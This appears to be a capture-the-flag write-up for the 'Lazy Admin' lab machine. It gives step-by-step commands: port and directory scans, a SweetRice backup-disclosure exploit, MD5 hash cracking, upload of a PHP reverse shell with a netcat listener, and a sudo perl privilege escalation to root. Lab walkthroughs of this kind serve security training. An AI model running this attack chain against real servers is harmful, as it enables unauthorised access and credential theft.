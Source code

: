 # lazy admin final

## _step 1

scan host:

***sudo nmap -sV -Pn -p- -T4 `host-ip`***

 __open__ ports:

      port 22 ssh - OpenSSH 7.2p2
      
      port 80 http - Apache httpd 2.4.18

## _step 2

scan for directories:

***gobuster dir -u http://`host-ip` -w `/usr/share/wordlists/dirb/common.txt`***

      /.htpasswd
      /.htaccess
      /content
      /server-status

another scan in **/content**

***gobuster dir -u http://`host-ip`/content/ -w `/usr/share/wordlists/dirb/common.txt`***

      /.htpasswd
      /.htaccess
      /_themes
      /as
      /attachment
      /images
      /inc
      /index.php
      /js

## _step 3

in */index.php* we found a cms named **sweet rice** 

***searchsploit sweet rice***

---->   **SweetRice 1.5.1 - Backup Disclosure /php/webapps/40718.py**

***cat /usr/share/exploitdb/exploit/php/webapps/40718.py***

      Proof of Concept :

      You can access to all mysql backup and download them from this directory.
      
      http://host-ip/inc/mysql_backup/

----> **http://`host-ip`/content/inc/mysql_backup/**

## _step 4

lets get the mysql backup file

***wget http://`host-ip`/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql***

in this file we can find credentials

user: **manager**

passwordhash: **42f749ade7f9e195bf475f37a44cafcb**

## _step 5

lets crack the **md5** passwordhash with hashcat

***hashcat -m 0 `yourfile.txt` /usr/share/wordlists/rockyou.txt***

user: **manager**

password: **Password123**

## _step 6

sweetrice login 

---->***http://`host-ip`/content/as/***

## _step 7

upload php reverse shell from https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

set up listener on your machine:

***nc -lnvp `PORT`***

run uploaded shell to get connection:

---->***http://`host-ip`/content/inc/ads/`SHELLNAME`***

improve your shell with following command:

***python3 -c 'import pty;pty.spawn("/bin/bash")'***

the user flag is located in: 

----->***/home/itguy/flag.txt***


## _step 8 

privilege escaltion to root:

run ***echo "/bin/bash" > /etc/copy.sh***

and ***sudo /usr/bin/perl /home/itguy/backup.pl***

the root flag is located in:

----->***/root/root.txt***







   
    
